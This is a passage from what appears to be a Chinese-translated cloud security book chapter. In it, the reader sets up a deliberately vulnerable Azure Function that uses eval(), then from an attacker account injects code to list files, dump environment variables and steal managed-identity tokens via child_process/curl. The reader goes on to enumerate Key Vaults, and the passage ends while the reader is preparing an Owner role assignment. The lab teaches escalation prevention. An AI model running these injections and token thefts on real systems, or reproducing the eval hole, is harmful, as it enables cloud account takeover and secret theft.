



## 第 12 章. 在 Microsoft Azure 中提升权限

在上一章的模拟中，您利用了无服务器函数中的代码注入漏洞，获取了与该函数托管标识关联的访问令牌，该标识具有 Owner 级别权限。实际上，大多数与无服务器函数和其他支持无服务器操作模型的云资源关联的托管标识被授予的访问权限要有限得多。

在本章中，您将在所学知识的基础上，探讨攻击者如何通过滥用过于宽松的托管标识在 Azure 中提升权限。您将首先升级之前设置的有意易受攻击的无服务器函数，并将其托管标识配置为更严格的角色集。接下来，您将执行模拟攻击并通过代码注入提取函数应用的托管标识令牌，通过管理平面分配提升的角色来提升权限，然后从 Key Vault 访问密钥。最后，您将通过删除任何不必要的角色分配来保护函数，以强制执行最小权限原则。

本章将涵盖以下内容：

*   “Updating the Function App Permissions”
*   “Escalating Privileges Through an Overly Permissive Managed Identity”
*   “Applying Least Privilege to the Function App Managed Identity”

到本章结束时，您应该能够识别可能允许攻击者在 Azure 中提升权限的配置错误。这将帮助您在发生之前防止权限提升并加强 Azure 无服务器应用程序的整体安全态势。

### Reviewing Technical Prerequisites

要跟随本章，您需要以下内容：

*   在本地计算机上安装的代码编辑器（例如 VS Code 或 Sublime Text）
*   两个 Microsoft Azure 账户：一个用于设置和托管易受攻击的无服务器实验室环境（Serverless Lab 账户），另一个用于运行模拟利用（Attacker 账户）

在跟随本章时，请确保两个账户都已准备就绪并在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。

#### Note

为了帮助您完成练习和模拟，本章中使用的代码和命令的副本可在 [GitHub gist（见 `ch12.md`）](https://oreil.ly/0mSPU) 中获得。

### Updating the Function App Permissions

在本节中，您将更新函数应用托管标识的角色分配，用更不宽松的一组角色 Contributor 和 User Access Administrator 替换其当前分配的角色 Owner 和 Key Vault Secrets Officer。请记住，虽然这些角色权限更低，但攻击者如果利用无服务器函数中的代码注入漏洞，可能会利用托管标识的权限来提升权限（Figure 12-1）。

由于函数应用的托管标识不再具有对 Key Vault 的访问权限，您还将相应地更新 `evaluate` 函数代码，然后重新部署该函数。



在动手操作之前，让我们讨论本章的几个关键术语：

Managed identity

: 

分配给 Azure 资源以便在不将凭据存储在代码中的情况下对其他 Azure 服务进行身份验证的标识。这类似于给员工一张公司 ID 卡，该卡可自动授予其访问批准的房间和资源的权限，而无需为每扇门准备单独的钥匙。在此类比中，托管标识是公司 ID 卡，而 Azure 资源，例如无服务器函数，则是使用它访问其他服务和资源的员工。

Subscription

: 

在该 Azure 账户下创建和计费资源的 Azure 账户。继续这个类比，订阅就像管理 ID 卡（托管标识）的公司，并决定哪些员工（Azure 资源）可以访问哪些房间和资源。

Subscription ID

: 

Azure 订阅的唯一标识符。订阅 ID 就像公司的注册号或税号，唯一标识它与其他公司不同。

Principal

: 

可以分配角色以访问资源的安全实体，例如用户、组或托管标识。您可以将主体视为可以被授予访问公司资源和进入建筑物特定房间权限的任何人（或任何事物）。

Principal ID

: 

主体的唯一标识符。您可以将其视为唯一的员工 ID 或徽章号码，用于区分一个人或服务，即使多个主体具有相似的名称或角色。

Role assignment
:


主体的关联与角色，定义主体可以在资源上执行的操作。延展这个类比，角色分配就像为员工授予对建筑物中房间或资源的特定权限，允许他们根据其职责进入服务器机房、使用复印机或访问人力资源文件。公司的创始人或总裁随后将被分配 `Owner` 角色，使其对所有房间和资源拥有完全控制权。

#### Scope

角色分配适用的资源集合，例如资源、资源组或订阅。在类比中，范围就像员工访问权限适用的建筑物中的特定房间或楼层，精确定义他们可以使用其 ID 卡的位置。

这些关键术语是管理 Azure 中访问和特权的基础。理解它们对于防止可能导致权限提升的错误配置至关重要。

#### Note

本节假定您正在使用您的 Serverless Lab 账户，该账户托管您在前一章中准备的有意易受攻击的无服务器实验室资源。

让我们现在更新函数应用权限：

1. 切换回 Serverless Lab 账户的 Cloud Shell 终端。

2. 运行以下命令（`$` 符号之后）以检索函数应用托管标识的主体 ID 并将其存储在环境变量（`PRINCIPAL_ID`）中：

```
source ~/vulnerable-function/function-vars.sh

DETAILS=$(az functionapp identity show \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP)

PRINCIPAL_ID=$(echo $DETAILS | jq -r ".principalId")
```

您可以运行 `echo $PRINCIPAL_ID` 来打印主体 ID 并确保其已成功检索。

3. 列出函数应用托管标识（使用其主体 ID）的所有角色分配，以验证其当前权限：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o table
```

这会返回以下值表：

```
Principal  Role                       Scope
---------  -------------------------  -------------------------
...        Key Vault Secrets Officer  /.../vaults/keyvault...
...        Owner                      /subscriptions/...
```

此标识同时被分配了 Key Vault Secrets Officer 角色（范围限定于 Key Vault）和 Owner 角色（范围限定于订阅）。

4. 以 JSON 格式列出函数应用托管标识的所有角色分配，然后仅显示主体 ID、角色和范围：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json | \
  jq '[.[] |
        { principal: .principalId,
          role: .roleDefinitionName,
          scope: .scope }]'
```

运行命令会得到以下 JSON 输出：

```
[
  {
    "principal": "...",
    "role": "Key Vault Secrets Officer",
    "scope": "/.../vaults/keyvault..."
  },
  {
    "principal": "...",
    "role": "Owner",
    "scope": "/subscriptions/..."
  }
]
```

5. 将托管标识的完整角色分配列表存储在环境变量（`ASSIGNMENT_LIST_FULL`）中，然后输出每个分配的 `principalId`、`roleDefinitionName` 和 `scope` 值：

```
ASSIGNMENT_LIST_FULL=$(az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json)

ASSIGNMENT_LIST=$(echo $ASSIGNMENT_LIST_FULL | \
  jq '[.[] |
        { principal: .principalId,
          role: .roleDefinitionName,
          scope: .scope }]')

echo $ASSIGNMENT_LIST | jq .
```

这会产生以下 JSON 输出：

```
[
  {
    "principal": "...",
    "role": "Key Vault Secrets Officer",
    "scope": "/.../vaults/keyvault..."
  },
  {
    "principal": "...",
    "role": "Owner",
    "scope": "/subscriptions/..."
  }
]
```

6. 运行以下代码块以删除托管标识的每个角色分配：

```
echo "$ASSIGNMENT_LIST" | jq -c '.[]' | while read assignment; do
    PRINCIPAL=$(echo "$assignment" | jq -r '.principal')
    ROLE=$(echo "$assignment" | jq -r '.role')
    SCOPE=$(echo "$assignment" | jq -r '.scope')

    echo "Deleting role assignment: $ROLE for principal $PRINCIPAL on $SCOPE"

    az role assignment delete \
        --assignee "$PRINCIPAL" \
        --role "$ROLE" \
        --scope "$SCOPE"
done
```

几秒钟后，您应该会得到以下日志输出：

```
Deleting role assignment: Key Vault Secrets Officer for principal ... on
/.../.../providers/Microsoft.KeyVault/vaults/keyvault...
Deleting role assignment: Owner for principal ... on /subscriptions/...
```

7. 通过再次列出托管标识的所有角色分配来验证角色分配是否已成功删除：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json
```

运行命令返回 `[]`。

8. 检索与函数应用托管标识关联的主体 ID 和订阅 ID，并将它们存储在其各自的变量（`PRINCIPAL_ID` 和 `SUBSCRIPTION_ID`）中：

```
source ~/vulnerable-function/function-vars.sh

DETAILS=$(az functionapp identity show \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP)

PRINCIPAL_ID=$(echo $DETAILS | jq -r ".principalId")

SUBSCRIPTION_ID=$(az account show --query id -o tsv)
```

9. 在订阅范围内向托管标识分配 Contributor 角色：

```
az role assignment create \
  --assignee $PRINCIPAL_ID \
  --role "Contributor" \
  --scope /subscriptions/$SUBSCRIPTION_ID
```

10. 在订阅范围内向托管标识分配 User Access Administrator 角色：

```
az role assignment create \
  --assignee $PRINCIPAL_ID \
  --role "User Access Administrator" \
  --scope /subscriptions/$SUBSCRIPTION_ID
```

11. 验证角色分配是否已成功应用：

```
ASSIGNMENT_LIST_FULL=$(az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json)

ASSIGNMENT_LIST=$(echo $ASSIGNMENT_LIST_FULL | \
  jq '[.[] |
        { principal: .principalId,
          role: .roleDefinitionName,
          scope: .scope }]')

echo $ASSIGNMENT_LIST | jq .
```

这会产生以下 JSON 输出：

```
[
  {
    "principal": "...",
    "role": "Contributor",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "User Access Administrator",
    "scope": "/subscriptions/..."
  }
]
```

12. 在 Cloud Shell 代码编辑器中打开 `vulnerable-function/src/functions/evaluate.js`。用以下有意易受攻击的表达式求值代码替换文件内容：

```
const { app } = require('@azure/functions');

const HARDCODED_KEY = "67890ghijkl";

app.http('evaluate', {
  methods: ['POST'],
  authLevel: 'function',
  handler: async (request, context) => {
    const expression = await request.text() || '"No expression provided"';

    let result;
    try {
      result = eval(expression);
    } catch (err) {
      result = `Error: ${err.message}`;
    }

    return { body: `Evaluation result: ${result}` };
  }
});
```

#### Caution

更新 `evaluate.js` 文件后，请务必在继续下一步之前保存更改。


13. 在终端中运行以下命令（在 `$` 符号之后）以部署函数中的最新更改：

```
cd ~/vulnerable-function
source function-vars.sh

func azure functionapp publish $FUNCTION_APP
```

14. 从前一个命令（`func azure functionapp publish`）的输出中复制函数的 Invoke URL 并将其存储在 `INVOKE_URL` 环境变量中：

```
INVOKE_URL="[SPECIFY INVOKE URL]"
```

#### Caution

在运行命令之前，请确保将 `[SPECIFY INVOKE URL]` 替换为 Invoke URL 值。

15. 获取并显示函数应用中 `evaluate` 函数的函数密钥：

```
KEY=$(az functionapp function keys list \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP \
  --function-name evaluate)

echo $KEY
```

这会产生以下 JSON 输出：

```
{
  "default": "...",
  "id": null,
  "kind": null,
  "name": null,
  "properties": null,
  "type": null
}
```

16. 从检索到的密钥中提取默认函数密钥并将其打印到终端：

```
FUNCTION_KEY=$(echo $KEY | jq -r ".default")
echo $FUNCTION_KEY
```

17. 通过发送包含简单表达式（如 `4+2`）的 `POST` 请求来测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "4+2"
```

这应成功计算表达式并产生以下输出：

```
Evaluation result: 6
```

18. 使用另一个有效表达式（如 `(2 + 9) * (6 / 4)`）测试 `evaluate` 函数：

```
curl -X POST "$INVOKE_URL?code=$FUNCTION_KEY" \
  -H "Content-Type: text/plain" \
  -d "(2 + 9) * (6 / 4)"
```

这应给出以下计算输出：

```
Evaluation result: 16.5
```

现在你的更新后的易受攻击的按需服务器 less 函数已准备就绪，你可以继续进行下一节，探索在当前角色分配（Contributor 和 User Access Administrator）下如何提升权限。

### 通过过度宽松受管标识提升权限

在 Chapter 11 中，在利用易受攻击的服务器 less 函数后，你获得了并使用了一个具有 Owner 级别权限的访问令牌以及其他授予的角色来访问云账户中的其他资源。实际上，大多数与服务器 less 函数和其他云资源关联的受管标识被授予的访问权限要受限得多。在本节中，你将使用一个具有较低级别权限的访问令牌，并寻求提升权限以获得 Owner 级别访问。

你可以将攻击者想象成佩戴低权限 ID 徽章的入侵者，他试图欺骗建筑工作人员或系统发放主徽章。入侵者从有限的访问权限开始（徽章只能打开几扇门），然后寻找提升该访问权限的方法，以便进入任何房间并窃取机密信息。

#### Note

本节假设你主要从 Attacker 账户工作。然而，一些步骤可能需要你切换到 Serverless Lab 账户或参考本地机器上包含之前复制值的文本文件。

让我们逐步了解与易受攻击的服务器 less 函数关联的过度宽松受管标识如何导致权限提升：

1. 在本地机器上创建一个文本文件并添加以下占位符以供以后使用：

```
SUBSCRIPTION_ID=""
ACCESS_TOKEN=""
ACCESS_TOKEN_2=""
RESOURCE_GROUP=""
```

#### Note

现在先将占位符留空。你将在完成即将到来的步骤时填写它们。

2. 从 Serverless Lab 账户的 Cloud Shell 终端复制 Invoke URL 和 Function Key 的值。切换到 Attacker 账户的 Cloud Shell 终端并将这些值存储在其对应的环境变量（`INVOKE_URL` 和 `FUNCTION_KEY`）中，因为你将在后续命令中使用它们：

```
INVOKE_URL="[SPECIFY INVOKE URL]"
FUNCTION_KEY="[SPECIFY FUNCTION KEY]"
```

#### Caution

在运行命令之前，请将占位符替换为实际的 Invoke URL 和 Function Key 值。

3. 运行你在上一章准备的 `tester.rb` 脚本：

```
export INVOKE_URL=$INVOKE_URL
export FUNCTION_KEY=$FUNCTION_KEY

ruby tester.rb
```

4. 在脚本的 REPL 中，在 `Enter an expression (or type 'exit' to quit)` 之后，首先输入一个有效的数学表达式供函数计算：

```
(2 + 2) * 3
```

这应成功计算输入表达式并产生以下输出：

```
[OUTPUT RESPONSE] Evaluation result: 12
```

让我们现在检查上一章中的一些恶意表达式是否仍然有效。列出当前目录中的所有文件和目录：

```
require('fs').readdirSync('./')
```

这会产生以下输出：

```
[OUTPUT RESPONSE] package-lock.json,...,host.json,node_modules,src
```

列出 `src` 文件夹内的所有文件和目录：

```
require('fs').readdirSync('./src')
```

这会产生以下输出：

```
[OUTPUT RESPONSE] Evaluation result: functions
```

列出 `src/functions` 目录内的所有文件：

```
require('fs').readdirSync('./src/functions')
```

你应该在输出中看到 `evaluate.js` 文件，类似于以下内容：

```
[OUTPUT RESPONSE] Evaluation result: evaluate.js
```

读取 `src/functions` 目录中 `evaluate.js` 的内容：

```
require('fs').readFileSync('./src/functions/evaluate.js', 'utf8')
```

这会给你函数的源代码：

```
[OUTPUT RESPONSE] const { app } = require('@azure/functions');

const HARDCODED_KEY = "67890ghijkl";

app.http('evaluate', {
    methods: ['POST'],
    authLevel: 'function',
    handler: async (request, context) => {
        const expression = await request.text() || '"..."';

        let result;
        try {
            result = eval(expression);
        } catch (err) {
            result = `Error: ${err.message}`;
        }

        return { body: `Evaluation result: ${result}` };
    }
});
```

检索环境变量：

```
JSON.stringify(process.env)
```

这会产生以下输出：

```
[OUTPUT RESPONSE]
{
  "ALLUSERSPROFILE": "C:\\local\\ProgramData",
  "APPDATA": "C:\\local\\AppData",
  "APPLICATIONINSIGHTS_CONNECTION_STRING": "...,
  "APPSETTING_APPLICATIONINSIGHTS_CONNECTION_STRING": "...",
  "APPSETTING_AzureWebJobsStorage": "...",
  "APPSETTING_FUNCTIONS_EXTENSION_VERSION": "~4",
  "APPSETTING_FUNCTIONS_WORKER_RUNTIME": "node",
  "APPSETTING_SAMPLE_API_KEY": "12345abcdef",

  ...

  "WEBSITE_SITE_NAME": "functionapp...",
  "WEBSITE_SKU": "Dynamic",
  "WEBSITE_SLOT_NAME": "Production",
  "WEBSITE_VOLUME_TYPE": "AzureFiles",
  "WEBSOCKET_CONCURRENT_REQUEST_LIMIT": "35",
  "windir": "C:\\Windows",
  "WORKER_INDEXING_ENABLED": "1"
}
```

现在，使用以下命令检索订阅 ID，然后将结果值（在 `[OUTPUT RESPONSE]` 之后）复制到本地文本文件（TAG：`SUBSCRIPTION_ID`）中，因为你在即将到来的步骤中需要它：

```
process.env["WEBSITE_OWNER_NAME"]?.split('+')[0]
```


作为单行运行此命令，使用托管标识获取访问令牌。将输出值（`[OUTPUT RESPONSE]`之后）复制到本地文本文件（TAG：`ACCESS_TOKEN`）中，因为您将在后续步骤中使用它：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://management.azure.com/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

这会返回以下输出响应：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

作为单行运行此命令，使用托管标识获取访问令牌。将输出值（`[OUTPUT RESPONSE]`之后）复制到本地文本文件（TAG：`ACCESS_TOKEN_2`）中，因为您将在后续步骤中使用它：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://vault.azure.net/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

这会产生以下输出：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://vault.azure.net/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

检索资源组名称并将输出值（`[OUTPUT RESPONSE]`之后）复制到本地文本文件（TAG：`RESOURCE_GROUP`）：

```
process.env.WEBSITE_RESOURCE_GROUP
```

这会产生以下输出：

```
[OUTPUT RESPONSE] rg-serverless-security-lab
```

输入 `exit` 并按 Enter 停止脚本并返回到命令行。

此时，您本地机器中的参考文本文件应具有以下内容：`SUBSCRIPTION_ID`、`ACCESS_TOKEN`、`ACCESS_TOKEN_2` 和 `RESOURCE_GROUP`。您将在后续步骤中使用这些值来模拟通过过度授权的托管标识进行的权限提升：

```
SUBSCRIPTION_ID="..."
ACCESS_TOKEN="..."
ACCESS_TOKEN_2="..."
RESOURCE_GROUP="rg-serverless-security-lab"
```

#### Tip

由于参考文本文件已经像 shell 脚本一样结构化，初始化了四个环境变量，因此您可以直接将这些行复制并粘贴到 Cloud Shell 终端中以设置它们，而无需在下一步中进行额外编辑。

让我们继续在 Cloud Shell 终端（攻击者账户）中您离开的地方，以执行权限提升模拟的剩余步骤：

1. 从参考文本文件中复制第一个访问令牌值（TAG：`ACCESS_TOKEN`）并将其存储在 Cloud Shell 终端中的环境变量（`ACCESS_TOKEN`）中：

```
ACCESS_TOKEN="[SPECIFY ACCESS TOKEN]"
```

2. 从参考文本文件中复制第二个访问令牌值（TAG：`ACCESS_TOKEN_2`）并将其存储在 Cloud Shell 终端中的环境变量（`ACCESS_TOKEN_2`）中：

```
ACCESS_TOKEN_2="[SPECIFY ACCESS TOKEN]"
```

3. 从参考文本文件中复制检索到的 Azure 订阅 ID 值（TAG：`SUBSCRIPTION_ID`）并将其存储在 Cloud Shell 终端中的环境变量（`SUBSCRIPTION_ID`）中：

```
SUBSCRIPTION_ID="[SPECIFY SUBSCRIPTION ID]"
```

4. 从参考文本文件中复制检索到的资源组值（TAG：`RESOURCE_GROUP`）并将其存储在 Cloud Shell 终端中的环境变量（`RESOURCE_GROUP`）中：

```
RESOURCE_GROUP="rg-serverless-security-lab"
```

5. 使用第一个访问令牌（`ACCESS_TOKEN`）查询订阅中的所有 Key Vault：

```
URL_PART1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_PART2="providers/Microsoft.KeyVault/vaults?api-version=2022-07-01"

RESPONSE=$(curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     "$URL_PART1/$URL_PART2")

echo $RESPONSE | jq "."
```

这会输出以下内容：

```
{
  "value": [
    {
      "id": "/.../vaults/keyvault...",
      "name": "keyvault...",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {},
      "systemData": {...},
      "properties": {
        "sku": {
          "family": "A",
          "name": "standard"
        },
        "tenantId": "...",
        "accessPolicies": [],
        "enabledForDeployment": false,
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "enableRbacAuthorization": true,
        "vaultUri": "...",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
      }
    }
  ],
  "nextLink": "..."
```

6. 从响应中提取 Key Vault 名称并将其存储在环境变量（`KEYVAULT_NAME`）中：

```
KEYVAULT_NAME=$(echo $RESPONSE | jq -r ".value.[].name")
```

7. 使用新的访问令牌列出 Key Vault 中的所有机密并显示其元数据：

```
URL="https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5"

curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "$URL" | jq .
```

这会给您以下错误消息：

```
{
  "error": {
    "code": "Forbidden",
    "message": "Caller is not authorized to perform action on resource...",
    "innererror": {
      "code": "ForbiddenByRbac"
    }
  }
}
```

8. 解码 JSON Web Token（JWT）访问令牌以以 JSON 格式检查其负载：

```
echo $ACCESS_TOKEN | cut -d "." -f2 | base64 --decode | jq .
```

这会产生以下输出：

```
{
  "aud": "...",
  "iss": "...",
  "iat": ...,
  "nbf": ...,
  "exp": ...,
  "aio": "...",
  "appid": "...",
  "appidacr": "...",
  "idp": "...",
  "idtyp": "app",
  "oid": "...",
  "rh": "...",
  "sub": "...",
  "tid": "...",
  "uti": "...",
  "ver": "1.0",
  "xms_ftd": "...",
  "xms_idrel": "...",
  "xms_mirid": "/.../rg-serverless-security-lab/.../functionapp...",
  "xms_rd": "...",
  "xms_tcdt": "..."
}
```

下表更详细地介绍了这些访问令牌声明中的一些内容：

| Claim || Description |

| --- | --- |

| `aud` || 令牌的预期受众/接收者 |

| --- | --- |

| `iss` || 令牌的发行者 |

| `iat` || Issued At 时间戳（令牌签发时间） |

| `nbf` || Not Before 时间戳（令牌生效时间） |

| `exp` || 过期时间戳（令牌不再有效的时间） |

| `aio` || 用于令牌处理的内部 Azure AD 声明 |

| `appid` || 发行令牌的客户端的应用程序 ID |

| `appidacr` || 用于验证应用的方法 |

| `idp` || 对令牌主体进行身份验证的身份提供者 |

| `idtyp` || 标识令牌是应用（或应用+用户）令牌 |

| `oid` || 用户或服务主体的对象 ID |

| `rh` || 用于刷新/重新验证令牌的内部声明 |

| `sub` || 令牌的主体 |

| `tid` || 用户登录的租户 |

| `uti` || 唯一令牌标识符 |

| `ver` || 令牌的版本 |

9. 通过运行以下命令检索对象 ID，或 OID（主体 ID）：

```
echo $ACCESS_TOKEN | cut -d "." -f2 | base64 --decode | jq -r '.oid'
```

或者，如果在运行上一个命令时遇到 `base64: invalid input` 错误，您可以运行以下命令：


```
PAYLOAD=$(echo $ACCESS_TOKEN | cut -d "." -f2)
FIXED=$(echo "$PAYLOAD" | tr '_-' '/+' | \
    awk '{printf "%s%s", $0, substr("===", (length($0)%4)+1)}')

echo "$FIXED" | base64 --decode 2>/dev/null | jq -r '.oid'
```

##### 10. 将检索到的 OID（主体 ID）存储到环境变量（`PRINCIPAL_ID`）中：

```
PRINCIPAL_ID="[SPECIFY OID VALUE]"
```

#### Caution

在运行命令之前，请确保将 `[SPECIFY OID VALUE]` 替换为适当的 `oid` 值。

##### 11. 检索 Owner 角色 ID 并将其存储到环境变量（`OWNER_ROLE_ID`）中：

```
OWNER_ROLE_ID=$(az role definition list --name "Owner" \
    --query "[].id" -o tsv)

echo $OWNER_ROLE_ID
```

这会给出类似如下的输出值：

```
/subscriptions/.../providers/Microsoft.Authorization/roleDefinitions/...
```

